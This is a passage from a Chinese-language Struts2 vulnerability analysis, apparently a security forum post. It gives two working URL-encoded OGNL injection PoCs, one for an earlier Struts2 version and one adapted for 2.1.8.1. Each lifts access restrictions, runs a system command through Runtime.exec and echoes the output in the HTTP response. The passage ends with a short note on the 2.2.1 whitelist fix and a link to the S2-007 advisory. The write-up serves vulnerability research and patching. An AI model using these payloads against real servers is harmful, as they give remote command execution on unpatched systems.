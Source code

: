 因此构造可回显PoC如下：

```php
/xxx.action?
(a)(%5cu0023_memberAccess.excludeProperties%5cu003d@java.util.Collections@EMPTY_SET)
&amp;(b)(%5cu0023context['xwork.MethodAccessor.denyMethodExecution']%5cu003dfalse)
&amp;(c)(%5cu0023ret%5cu003d@java.lang.Runtime@getRuntime().exec('id'))
&amp;(d)(%5cu0023dis%5cu003dnew%5cu0020java.io.BufferedReader(new%5cu0020java.io.InputStreamReader(%5cu0023ret.getInputStream())))
&amp;(e)(%5cu0023res%5cu003dnew%5cu0020char[20000])
&amp;(f)(%5cu0023dis.read(%5cu0023res))
&amp;(g)(%5cu0023writer%5cu003d@org.apache.struts2.ServletActionContext@getResponse().getWriter())
&amp;(h)(%5cu0023writer.println(new%5cu0020java.lang.String(%5cu0023res)))
&amp;(i)(%5cu0023writer.flush())
&amp;(j)(%5cu0023writer.close())
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0c3ec0c6ad72a6dc170ae39e6e376060fb583cc9.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0c3ec0c6ad72a6dc170ae39e6e376060fb583cc9.png)

后来用Struts2 `2.1.8.1`版本也调了下，发现代码有细微差别。上面的PoC无效。不过实现思路是一样的，改一下即可：

```php
/xxx.action?
(a)(%5cu0023_memberAccess.allowStaticMethodAccess%5cu003dtrue)
&amp;(b)(%5cu0023context['xwork.MethodAccessor.denyMethodExecution']%5cu003dfalse)
&amp;(c)(%5cu0023ret%5cu003d@java.lang.Runtime@getRuntime().exec('id'))
&amp;(d)(%5cu0023dis%5cu003dnew%5cu0020java.io.BufferedReader(new%5cu0020java.io.InputStreamReader(%5cu0023ret.getInputStream())))
&amp;(e)(%5cu0023res%5cu003dnew%5cu0020char[20000])
&amp;(f)(%5cu0023dis.read(%5cu0023res))
&amp;(g)(%5cu0023writer%5cu003d@org.apache.struts2.ServletActionContext@getResponse().getWriter())
&amp;(h)(%5cu0023writer.println(new%5cu0020java.lang.String(%5cu0023res)))
&amp;(i)(%5cu0023writer.flush())
&amp;(j)(%5cu0023writer.close())
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a8fca4ef4e367bce3c7569b7b3d61493d5a481d1.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a8fca4ef4e367bce3c7569b7b3d61493d5a481d1.png)

漏洞修复
----

在Struts `2.2.1`版本中，使用了正则表达式匹配白名单字符的方式去校验请求url的参数：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c3d2e90017aa8aa0e4ce21597141e0632a7da227.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c3d2e90017aa8aa0e4ce21597141e0632a7da227.png)

S2-007
------

官方漏洞公告：  
<https://cwiki.apache.org/confluence/display/WW/S2-007>
